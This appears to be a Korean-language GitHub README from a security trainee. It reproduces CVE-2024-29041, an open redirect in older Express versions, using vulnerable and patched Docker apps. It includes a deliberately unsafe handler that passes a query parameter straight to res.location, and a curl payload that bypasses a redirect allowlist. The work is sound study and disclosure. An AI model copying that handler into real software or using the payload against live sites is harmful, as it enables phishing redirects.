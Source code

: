 # CVE-2024-29041 | Open Redirect

> 화이트햇 스쿨 3기 (19반) - [정민석 (@j93es)](https://github.com/j93es) / [Blog Link](https://j93.es)

<br/>

### 요약

아래 Express 버전에서 `req.location()` 혹은 내부적으로 `req.location()`을 이용하는 `req.redirect()`에서는 헤더의 `Location`에 값을 넣기 전, encodeurl()이라는 함수를 이용하여 인코딩합니다. 이러한 과정에서 리디렉션 화이트리스트를 우회할 수 있는 가능성이 발생합니다.

- \< 4.19.2
- \>= 5.0.0-alpha.1, \< 5.0.0-beta.3

<br/>

### PoC 구성

먼저 normal-app, vuln-app 2개의 express 서비스를 제작하였습니다. 두 서비스는 모두 query의 q에 있는 url을 파싱한 후, `Location` 헤더에 넣어 응답을 반환합니다.

```js
// index.js
const express = require("express");
const app = express();
const port = 3000;

app.use(function (req, res) {
  res.location(req.query.q).end();
});

app.listen(port, () => {
  console.log(`Example app listening at http://localhost:${port}`);
});
```

각 app의 package.json에 express 버전을 명시하였습니다. vuln-app은 4.19.0, normal-app은 패치가 완료된 4.19.2로 구동됩니다.

<br/>

### 환경 구성 및 실행

8002에는 취약한 버전의 Express가, 8003 포트에는 안전한 버전의 Express가 구동됩니다.

```sh
# 이미지 빌드
make build

# 컨테이너 실행
make up

# 종료
make down

# 로그 보기
make logs

# 컨테이너 재시작
make restart

# 컨테이너 및 이미지 제거 가능
make clean

# 이미지 제거 후 재빌드
make rebuild
```

<br/>

### 결과

**요청**

[패치 내역1](https://github.com/expressjs/express/commit/0b746953c4bd8e377123527db11f9cd866e39f94)과 [패치 내역2](https://github.com/expressjs/express/commit/0867302ddbde0e9463d0564fea5861feb708c2dd)의 테스트 코드를 참고하여 요청 URL을 선정하였습니다.

```sh
curl -i http://localhost:8002\?q\=http://google.com%20%20@apple.com
```

**안전한 Express 서버(8003 포트)**

![normal](./assets/normal.png)

**취약한 Express 서버(8002 포트)**

![normal](./assets/vuln.png)

<br/>

### 정리

`http://localhost:800X\?q\=http://google.com%20%20@apple.com` 요청 시 `Location` 헤더에, 첫 번째 URL인 `http://google.com  @apple.com`에서는 원본 url 중 `%20%20`이 디코딩된 채로 입력되었습니다. 두 번째 URL인 `http://google.com%20%20@apple.com`에서는 원본 url의 `%20%20`이 원본 그대로 반환되었습니다. 이처럼 취약한 버전의 Express에서는 엔코딩된 문자를 적절하지 않게 디코딩하기 때문에, 화이트리스트를 우회하여 오픈 리다이렉트를 발생시킬 수 있습니다.
